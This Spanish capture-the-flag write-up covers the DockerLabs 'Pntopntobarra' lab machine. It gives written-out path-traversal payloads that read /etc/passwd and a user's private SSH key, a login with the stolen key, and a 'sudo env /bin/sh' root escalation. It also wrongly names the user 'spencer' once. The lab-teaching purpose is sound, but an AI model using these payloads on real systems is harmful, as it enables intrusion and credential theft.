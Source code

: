 ```yaml
---
title: Pntopntobarra - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | maciiii___        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/44261ae0-a713-4bbd-a656-5faac24621f1)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p22,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/29121e08-d26c-45c2-aef1-be7698e0a060)

# Exploración Web

Accedemos al puerto `80` y encontramos una página web con un mensaje de advertencia y dos botones: "Hacer clic aquí podría empeorar la situación" y "Ejemplos de computadoras infectadas".

![image](https://github.com/user-attachments/assets/303820c1-440e-4ad1-b3b0-6e5d1e27018c)

Al probar con esa ruta, el archivo se carga sin problemas, lo cual indica que posiblemente estamos ante una vulnerabilidad **LFI (Local File Inclusion)**. Esto permite incluir archivos locales en el servidor al manipular el parámetro `images`.

![image](https://github.com/user-attachments/assets/b86d67c6-9b0e-4fa4-810d-d617e6d4ad5c)

Para confirmar, intentamos leer el archivo `/etc/passwd`, que lista los usuarios en el sistema:

![image](https://github.com/user-attachments/assets/ee0c3bfc-c679-47cf-bcc2-9fdc25cc7eca)

```URL
http://172.17.0.2/ejemplos.php?images=./../../../etc/passwd
```

![image](https://github.com/user-attachments/assets/da7342eb-23a3-4476-b2a8-36cf38cfaa5f)

Vamos a ver que mas podemos hacer , ya que el puerto `22` esta abierto vamos a ver si podemos sacar el `.ssh` de algun usuario.

![image](https://github.com/user-attachments/assets/3d27550e-5c05-45ba-8a24-d9f12a312002)

# Intrusion

Descubrimos el usuario `nico` en `/etc/passwd`. Dado que el puerto `22` está abierto, intentamos obtener la clave SSH privada (`id_rsa`) de nico para acceder al sistema como él. El archivo `id_rsa` en `.ssh` contiene una clave privada que permite autenticación SSH sin contraseña.

Intentamos cargar el archivo de clave privada con LFI:

```URL
http://172.17.0.2/ejemplos.php?images=./../../../home/nico/.ssh/id_rsa
```
![image](https://github.com/user-attachments/assets/4b2a0dea-55c1-4d11-816f-e6617861c8eb)

Copiamos el contenido del archivo `id_rsa` en nuestra máquina y le damos permisos adecuados antes de conectarnos:

```bash
chmod 600 id_rsa
ssh -i id_rsa nico@172.17.0.2                      
```
Esto nos da acceso al sistema como el usuario `nico`.

![image](https://github.com/user-attachments/assets/864916ad-318b-4853-a86f-6b4110b300b8)

# Escalada de Privilegios.

Al ejecutar `sudo -l`, notamos que spencer tiene permisos para ejecutar `env` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/d2ca0d5c-82ce-432f-8d60-329ce7205c51)

Ejecutamos el siguiente comando para obtener una shell con privilegios de root:
```bash
sudo env /bin/sh
```
Al ejecutar este comando, accedemos como root.

![image](https://github.com/user-attachments/assets/aee995db-8183-4286-9b25-71893c4199d3)
